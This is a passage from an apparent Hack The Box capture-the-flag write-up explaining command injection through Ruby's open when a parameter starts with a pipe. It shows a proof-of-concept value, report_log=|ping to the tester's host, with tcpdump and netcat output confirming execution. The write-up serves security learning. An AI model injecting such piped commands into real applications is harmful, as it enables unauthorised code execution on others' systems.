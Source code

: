 ### Command Injection via Insecure Open

#### Background

I’ve shown a couple times the insecure manner in which Perl uses the `open` command (recently in [Investigation](/2023/04/22/htb-investigation.html#vulnerability-details), and before that as diamond injection in [Pikaboo](/2021/12/04/htb-pikaboo.html#exploit-cvsupdate)).

[This post](https://bishopfox.com/blog/ruby-vulnerabilities-exploits) from Bishop Fox shows how Ruby can be abused the same way. The above code shows that the contents of the `report_log` parameter are passed directly to `open`. Given that I control that, if I lead that file path with a `|`, it will execute what follows.

The details are also clear in the [Ruby docs](https://ruby-doc.org/core-2.1.0/Kernel.html#method-i-open):

> If `path` starts with a pipe character (`"|"`), a subprocess is created, connected to the caller by a pair of pipes. The returned [IO](https://ruby-doc.org/core-2.1.0/IO.html) object may be used to write to the standard input and read from the standard output of this subprocess.

#### POC

I’ll start with a simple `ping` by updating `report_log=|ping -c 1 10.10.14.6`. I’ll listen with `tcpdump`, and nn triggering this, there are ICMP packets:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:14:02.388656 IP 10.10.11.190 > 10.10.14.6: ICMP echo request, id 42664, seq 1, length 64
23:14:02.388688 IP 10.10.14.6 > 10.10.11.190: ICMP echo reply, id 42664, seq 1, length 64

```

In fact, because the result is POSTed to me, I can see them at `nc`:

```

oxdf@hacky$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.190 40358
POST / HTTP/1.1
Host: 10.10.14.6:9001
Connection: keep-alive
Content-Length: 257
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/96.0.4664.45 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://derailed.htb:3000
Referer: http://derailed.htb:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=93.8 ms
--- 10.10.14.6 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 93.828/93.828/93.828/0.000 ms

```
